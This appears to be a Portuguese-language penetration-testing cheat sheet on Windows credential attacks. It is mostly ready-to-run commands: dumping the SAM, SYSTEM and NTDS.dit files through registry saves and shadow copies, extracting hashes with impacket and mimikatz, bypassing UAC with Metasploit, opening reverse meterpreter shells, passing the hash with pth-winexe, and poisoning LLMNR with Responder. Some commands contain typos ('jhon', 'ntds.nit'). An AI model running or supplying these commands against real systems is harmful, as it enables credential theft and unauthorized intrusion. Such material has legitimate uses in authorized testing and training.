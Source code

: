 # Windows Hashes

## Padrão de Hash do Windows

``<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:``  
LM Hash vazio: aad3b435b51404eeaad3b435b51404ee

## Obtendo hashes de senhas do Windows  
Nos sistemas Windows são utilizados até 3 arquivos para armazenamento e manipulação dos usuários e senhas dependendo da versão do sistema operacional. Os arquivos são:

**SAM - Security Account Manager** *(Windows XP/Vista/7/8/10)*  
- Armazena as contas de usuários
- %SystemRoot/system32/config/sam

**NTDS.DIT** *(Windows Server)*  
- Armazena os dados do AD incluindo as contas de usuários
- %SystemRoot/ntds/ntds.dit

**SYSTEM** *(Windows Server/XP/Vista/7/8/10)*  
- Arquivo necessário para decriptar o SAM/NTDS.DIT
- %SystemRoot/system32/config/system

Todos esses arquivos são bloqueados pelo sistema enquanto o mesmo estiver em execução, abaixo algumas técnicas para burlar essa proteção.

**Windows XP**  
Essa técnica funciona apenas em versões antigas do Windows. Verifique se existe o diretório *%SystemRoot%/Windows/repair* onde existe uma cópia do sistema operacional e faça a busca pelos arquivos **sam** e **system**.

A desvantagem de utilizar os arquivos da pasta *repair* é que pode ocorrer do arquivo sam estar desatualizado, não retornando todos os usuários atuais do sistema.

**Windows XP/Vista/7/8/10**  
Para baixar os arquivos **sam** e **system** através do registro do Windows, utilize os *comandos abaixo direto no terminal da máquina alvo:

``reg save hklm\sam samOK``  
``reg save hklm\system systemOK``

Esse método consegue retornar o arquivo sam com todos os usuários atuais do sistema.

**Necessário permissões para executar comandos como administrador*

**Windows Server/7/8/10**  
Em versões mais modernas do Windows assim como em versões do Windows Server, podemos utilizar a ferramenta ``vssadmin`` para criar uma cópia (shadow) do sistema operacional e fazer o download dos arquivos **sam**, **ntds.dit** e **system**.

Verificar os volumes do sistema operacional  
``vssadmin list volumes``

Montar uma cópia do volume alvo  
``vssadmin create shadow /for=c:``

Copiar os arquivos da cópia para o disco local  
``copy \\?\VOLUME_COPIA\windows\ntds\ntds.nit C:\ntds.nit``  
``copy \\?\VOLUME_COPIA\windows\system32\config\sam C:\sam``  
``copy \\?\VOLUME_COPIA\windows\system32\config\system C:\system``

## Obtendo hashes de senhas na rede  
Outra forma de descobrir os usuários e seus hashes é através da rede, mas nesse método é necessário já ter uma credencial válida do alvo.  

``impacket-secretdump user:pass@host``  

## Bypass UAC (Executar como Administrador)  

**Enviar solicitação ao usuário - Meterpreter**  
Inicie uma sessão com a máquina alvo através do metasploit e deixe em segundo plano com o comando ``background``. Para visualizar as sessões ativas utilize ``sessions``.

Selecione o módulo **exploit/windows/local/ask** e com o comando ``set SESSION 1`` defina que o módulo será executado na sessão que está em background.

Execute o módulo com o comando ``run``, dessa forma será enviada uma mensagem para a máquina alvo solicitando a execução como administrador.

**Nova sessão como administrador - Meterpreter**  
Nessa técnica vamos utilizar dois módulos, o primeiro é um exploit que irá realizar o bypass no UAC e o segundo é o payload que será executado para nos retornar outra shell, mas dessa vez como administrador.

Inicie uma sessão com a máquina alvo através do metasploit e deixe em segundo plano com o comando ``background``. Para visualizar as sessões ativas utilize ``sessions``.

Selecione o módulo **exploit/windows/local/bypassuac_fodhelper**. Faça a configuração do target de acordo com o alvo e selecione a sessão que está em background com o comando ``set SESSION 1``.

Agora definimos o payload com ``set payload windows/x64/meterpreter/reverse_tcp`` e faça a configuração padrão.

Execute o comando ``exploit`` e aguarde o inicio de uma nova sessão com os privilégios de administrador.

## Visualizar Hashes  
Para visualizar os hashes que estão nos arquivos sam e ntds.dit utilize uma das opções:

**Windows 2k/NT/XP/Vista**  
``samdump2 SYSTEM SAM``

**Windows 2k/NT/XP/Vista/7/8/10/Server**  
``impacket-secretdump -sam SAM -system SYSTEM LOCAL``

**Windows Server**  
``impacket-secretdump -ntds ntds.dit -system SYSTEM LOCAL``

## Quebra de Hashes  
Para realizar a quebra dos hashes podemos utilizar a ferramenta john The Ripper.

**Quebra de Hash sem LM** *(aad3b435b51404eeaad3b435b51404ee)***:**  
``jhon --format=nt hash``

**Quebra de Hash com LM:**  
``jhon --format=lm hash``

## Obtendo hashes de senhas do Windows em cache  
Para recuperar hashes de senhas que estão armazenadas no cache ou na memória do Windows, utilize aguns dos utilitários abaixo:

**fgdump**  
*Download: /usr/share/windows-binaries/fgdumb/fgdumb.exe (Kali)*  
Executar na máquina alvo, irá retornar dois arquivos com os hashes das senhas locais e do AD.

**WCE Universal**  
*Download: /usr/share/windows-resources/wce/wce-universal.exe (Kali)*  
O utilitário wce-universal.exe possui diversas formas de ser executado, duas delas são a mais simples que é sem argumentos, `wce-universal.exe`, onde irá retornar os hashes armazenados no cache e a outra forma é com o argumento -w  `wce-universal.exe -w` que retorna a senha em texto claro.

**Meterpreter**  
Com a sessão iniciada no meterpreter, carregue o módulo mimikatz com `load mimikatz` e utilize uma das variações abaixo:  
  
- `wdigest`
- `mimikatz_command -f sekurlsa::wdigest -a full`
- `mimikatz_command -f sekurlsa::searchPasswords`
- `mimikatz_command -f sekurlsa::logonPasswords`

## Obtendo a shell do alvo  
Com a senha/hash em mãos, podemos tentar nos conetctar ao alvo com uma das opções:

**winexe**  
- `winexe -U user%pass //RHOST cmd.exe `

**pth (Aceita o HASH do usuário)**  
- `pth-winexe -U user%HASH //RHOST cmd.exe `

**psexec (Metasploit)** 
Selecione o módulo **exploit/windows/smb/psexec** e faça as configurações do RHOSTS, SMBUser, SMBPass e SMBDomain. Depois defina o payload da shell reversa **windows/x64/meterpreter/reverse_tcp** e faça a configuração do LHOST e LPORT.
Execute o comando ``exploit`` e aguarde a conexão ser realizada com sucesso.

## Conexão Remota GUI com o alvo  
Para conectar no alvo utilizando interface gráfica, utilize os comandos:
- `xfreerdp /u:USER /p:PASS /v:RHOST`

## crackmapexec (Swiss Army Knife)  
Com esse utilitário é possível executar diversas tarefas como escaneamento da rede, conexão remota, enumeração de usuários e muito mais, alguns exemplos de como utilizar:

**Visualizar módulos de SMB no crackmapexec**
- `crackmapexec smb -L`  

**Enumeração de hosts com SMB na rede**  
- `crackmapexec smb 192.168.0.0/24`  

**Execução de comando em host com SMB na rede**  
- `crackmapexec smb RHOST -u USER -p 'PASS' -x 'whoami'`  

## Responder  
Responder é uma ferramenta muito poderosa para capturar credenciais em uma rede com dispositivos Windows. O responder se aproveita dos protocolos LLMNR e NBT-NS que fazem a identificação de um host na rede para enviar uma confirmação falsa ao solicitande, recebendo dessa forma as credenciais do usuário.

**Utilizar proxy na rede**
`responder -I eth0 -Prv`
